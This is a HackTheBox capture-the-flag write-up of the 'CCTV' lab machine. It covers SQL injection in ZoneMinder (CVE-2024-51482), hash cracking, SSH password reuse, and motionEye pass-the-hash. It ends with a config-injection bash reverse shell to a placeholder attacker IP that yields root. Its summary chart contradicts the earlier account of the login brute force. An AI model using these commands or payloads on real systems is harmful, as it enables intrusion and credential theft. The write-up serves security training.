# HackTheBox — CCTV Writeup

*by [ak4hit](https://github.com/ak4hit)*

> **Difficulty:** Medium | **OS:** Linux | **Target:** `cctv.htb`

---

## Attack Path Overview

1. Nmap → ports 22, 80 → `cctv.htb` running **ZoneMinder** ("SecureVision" branded)
2. Burp Intruder brute-force of the login form → `admin:admin` succeeds
3. Once logged in, ZoneMinder version fingerprinted as **1.37.63** via `?view=options&tab=version`
4. Version 1.37.63 matches **CVE-2024-51482** — unauthenticated-path, session-gated SQL injection in `removetag`
5. sqlmap (time-based blind) → dump `zm.Users` → bcrypt hashes for `superadmin`, `mark`, `admin`
6. John + rockyou → crack `mark:opensesame` and `admin:admin`
7. SSH as `mark` → `user.txt` locked behind a second account, `sa_mark`
8. Local enum → **motionEye** running on `localhost:8765`, config readable → SHA1 admin hash leaked from `motion.conf`
9. **Pass-the-hash** into motionEye admin session via `document.cookie` — no cracking needed
10. Bypass client-side validation → inject reverse shell into the **Image File Name** field (config-injection RCE)
11. Set capture mode to **Interval Snapshots** → Apply → motion daemon (running as **root**) executes the payload
12. Reverse shell lands as `root` → grab both flags

---

## Step 1 — Reconnaissance

### Nmap

```bash
nmap -A <TARGET_IP>
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58
|_http-title: SecureVision CCTV & Security Solutions
```

Add the host to `/etc/hosts`:

```bash
sudo nano /etc/hosts
# <TARGET_IP>  cctv.htb
```

### Website — SecureVision

Port 80 hosts a company landing page for a fictitious security firm, "SecureVision," with a **Staff Login** button leading to a ZoneMinder instance at `/zm/`.



---

## Step 2 — Login Brute-Force

The login form at `http://cctv.htb/zm/?view=login` was tested with Burp Intruder using a small list of common credential pairs:



Several attempts failed along the way (`user/test`, `admin/password`, etc.), returning the standard error page:



Eventually **`admin:admin`** succeeded. The successful login redirects to the ZoneMinder console — empty, with no monitors configured:



---

## Step 3 — Fingerprinting ZoneMinder

From the authenticated console, the exact ZoneMinder version was confirmed by navigating to the Options → Version tab:

```
http://cctv.htb/zm/?view=options&tab=version
```



**`DYN_CURR_VERSION: 1.37.63`** — this is the key finding. ZoneMinder 1.37.x up to and including 1.37.64 is vulnerable to a critical unauthenticated-path SQL injection, patched in 1.37.65.

---

## Step 4 — SQL Injection (CVE-2024-51482)

### The Vulnerability

ZoneMinder's `web/ajax/event.php` takes the `tid` request parameter for the `removetag` action and concatenates it directly into a raw SQL query without parameterization — a classic boolean/time-based blind SQL injection.

```
GHSA-qm8h-3xvf-m7j3
CVSS 9.9 (Critical)
```

Vulnerable endpoint:

```
http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1
```

### Getting a Valid Session Cookie

The endpoint sits behind ZoneMinder's session check, so sqlmap needs a live `ZMSESSID` cookie value even though the injection point itself requires no privilege. This was grabbed from the browser (Firefox DevTools → Storage → Cookies) after logging into the application shell:



Confirmed the cookie was actually sent on requests via Burp:



### Confirming and Exploiting the Injection

```bash
sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' \
  --cookie='ZMSESSID=<fresh_sessid>' --batch --dbs
```

```
[INFO] GET parameter 'tid' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
---
Parameter: tid (GET)
    Type: time-based blind
    Payload: view=request&request=event&action=removetag&tid=1 AND (SELECT 7803 FROM (SELECT(SLEEP(5)))aZxw)
---
available databases [3]:
[*] information_schema
[*] performance_schema
[*] zm
```

### Dumping Credentials

```bash
sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' \
  --cookie='ZMSESSID=<fresh_sessid>' \
  --batch -D zm -T Users -C Username,Password --dump
```

```
Database: zm
Table: Users
[3 entries]
+------------+--------------------------------------------------------------+
| Username   | Password                                                     |
+------------+--------------------------------------------------------------+
| superadmin | $2y$10$cmytVWFRnt1XfqsItsJRVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm |
| mark       | $2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG. |
| admin      | $2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m |
+------------+--------------------------------------------------------------+
```

> **Note:** time-based blind extraction is slow (~1-2 hours here) — each byte costs a full sleep-and-wait round trip. Tuning `--time-sec` and only requesting the columns actually needed (`Username,Password` instead of `*`) meaningfully cuts down total runtime.

### Cracking the Hashes

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
john --show hashes.txt
```

```
superadmin:$2y$10$cmytVWFRnt1XfqsItsJRVe... → not cracked (not in rockyou)
mark:$2y$10$prZGnazejKcuTv5bKNexXO...      → opensesame
admin:$2y$10$t5z8uIT.n9uCdHCNidcLf...      → admin
```

**Useful credential: `mark:opensesame`**

---

## Step 5 — Initial Foothold via SSH

Password reuse — `mark`'s ZoneMinder DB password also worked over SSH:

```bash
ssh mark@cctv.htb
# Password: opensesame
```

```
mark@cctv:~$ id
uid=1000(mark) gid=1000(mark) groups=1000(mark),24(cdrom),30(dip),46(plugdev)
mark@cctv:~$ sudo -l
Sorry, user mark may not run sudo on cctv.
```

`/home` reveals the actual flag holder is a second, more-privileged account:

```
mark@cctv:/home$ ls -la
drwxr-x---  5 mark    mark    4096 Mar  2 09:49 mark
drwxr-x---  4 sa_mark sa_mark 4096 Mar  2 09:49 sa_mark
```

`mark` has no direct read access to `sa_mark`'s home — lateral movement required.

---

## Step 6 — Local Enumeration

`mark` has no sudo rights and is not in the `docker` group, ruling out the obvious priv-esc shortcuts. `netstat` reveals several services bound only to `localhost`:

```
tcp   localhost:7999   LISTEN   # Motion HTTP control
tcp   localhost:1935   LISTEN   # RTMP
tcp   localhost:8554   LISTEN   # RTSP camera feed
tcp   localhost:8765   LISTEN   # motionEye
```

`curl localhost:8765` confirms **motionEye 0.43.1b4** is running locally — a separate camera-management frontend from ZoneMinder:

```
mark@cctv:~$ curl -s localhost:8765
...
0.43.1b4 motioneye
```

### Leaking the Admin Hash

motionEye's config directory is world-readable:

```bash
cat /etc/motioneye/motion.conf
```

```
# @admin_username admin
# @admin_password 989c5a8ee87a0e9521ec81a79187d162109282f0
```

This is a known weakness — motionEye v0.43.1 and prior create `/etc/motioneye/motion.conf` with `644` permissions, exposing the admin password's SHA1 hash to any local user.

---

## Step 7 — Pass-the-Hash into motionEye

Rather than cracking the SHA1 hash (rockyou came up empty), motionEye's own authentication design was abused instead: its signature-based API auth accepts signatures computed using the **password hash itself** as the key — meaning the stolen hash grants access without ever needing the plaintext password.

### Port Forward

```bash
ssh -L 8765:localhost:8765 mark@cctv.htb
```

Browsing to `http://localhost:8765` presents the motionEye login modal:



### Setting the Session Cookies Directly

In Firefox DevTools → Console:

```js
document.cookie = "meye_username=admin; path=/";
document.cookie = "meye_password_hash=989c5a8ee87a0e9521ec81a79187d162109282f0; path=/";
location.reload();
```



The reload drops straight into the authenticated camera dashboard — no password required:



---

## Step 8 — Config-Injection RCE

motionEye writes user-supplied configuration values (such as the still-image filename pattern) directly into Motion's config files without sanitization. Since Motion executes shell expansion on certain fields, an authenticated admin can inject arbitrary commands.

### Bypassing Client-Side Validation

The web UI blocks obviously malicious input before submission, so the validator was neutralized directly in the console before typing the payload:

```js
configUiValid = function() { return true; };
```



### Injecting the Payload

Under **Camera 1 → Still Images → Image File Name**, the field was set to:

```
$(bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1').%Y-%m-%d-%H-%M-%S
```

Capture mode was switched from **Manual** to **Interval Snapshots** (1 second interval) so a picture — and therefore the injected command — would actually fire without waiting on motion detection:



A listener was started before clicking **Apply**:

```bash
nc -lvnp 4444
```

Clicking **Apply** restarts the Motion daemon with the poisoned config — which runs as **root**:

```
┌──(ak4hit㉿ak4hit)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [<ATTACKER_IP>] from (UNKNOWN) [<TARGET_IP>] 36068
bash: cannot set terminal process group (3372): Inappropriate ioctl for device
bash: no job control in this shell
root@cctv:/etc/motioneye# id
uid=0(root) gid=0(root) groups=0(root)
```

Instant root — no separate privilege escalation step needed, since the Motion daemon itself runs with root privileges.

---

## Step 9 — Flags

```bash
root@cctv:~# cat root.txt
2efa****************************

root@cctv:~# cd /home/sa_mark
root@cctv:/home/sa_mark# cat user.txt
e0e4****************************
```

🚩 **User Flag:** `e0e4****************************`
👑 **Root Flag:** `2efa****************************`

---

## Full Attack Chain

```
Nmap → 22/SSH + 80/HTTP (ZoneMinder "SecureVision")
              ↓
     Version fingerprint → ZoneMinder 1.37.63
     Login brute-force → fails (no weak creds)
              ↓
     CVE-2024-51482 → unauthenticated-path SQLi in removetag
     Session cookie (ZMSESSID) + sqlmap time-based blind
              ↓
     Dump zm.Users → bcrypt hashes
     John + rockyou → mark:opensesame
              ↓
     SSH as mark → user.txt locked behind sa_mark
              ↓
     Local enum → motionEye on localhost:8765
     /etc/motioneye/motion.conf (644) leaks admin SHA1 hash
              ↓
     Pass-the-hash → forge meye_password_hash cookie
     Authenticated as motionEye admin, no cracking needed
              ↓
     Bypass client-side validator (configUiValid override)
     Inject reverse shell into Image File Name field
     Switch Capture Mode → Interval Snapshots → Apply
              ↓
     Motion daemon (runs as root) executes payload
              ↓
          ROOT SHELL DIRECTLY 👑
              ↓
     user.txt (sa_mark) + root.txt readable as root
```

---

## Key Takeaways

- **Version fingerprinting matters.** The ZoneMinder `?view=options&tab=version` page handed over the exact version needed to match a known CVE — always check "About/Version" pages before brute-forcing logins.
- **Session-gated ≠ safe.** CVE-2024-51482's injection point required a valid session cookie, but *any* authenticated session (even a low-privilege or freshly-created one) was enough — the vulnerability itself needed no special privilege.
- **Password reuse chains privilege.** The bcrypt-cracked ZoneMinder DB password (`mark:opensesame`) doubled as the SSH password, collapsing two separate footholds into one.
- **World-readable config files are a local privilege bridge.** motionEye's `644`-permission `motion.conf` handed over the admin password hash to any local user — no exploit needed, just a `cat`.
- **Pass-the-hash beats cracking.** motionEye's signature-based auth accepted the raw password hash as a valid HMAC key, meaning the stolen SHA1 hash was directly usable without ever being cracked.
- **Config-write features are code-execution sinks.** Any application that writes user-supplied strings into a daemon's config file — especially one with shell-expansion semantics — is a potential RCE vector, particularly when that daemon runs as root.
- **Client-side validation is not a security boundary.** A one-line console override (`configUiValid = () => true`) was enough to bypass all form-level input restrictions.

---

*HackTheBox · CCTV · Linux · by [ak4hit](https://github.com/ak4hit)*

---

*HackTheBox · CCTV · Linux · by [ak4hit](https://github.com/ak4hit)*
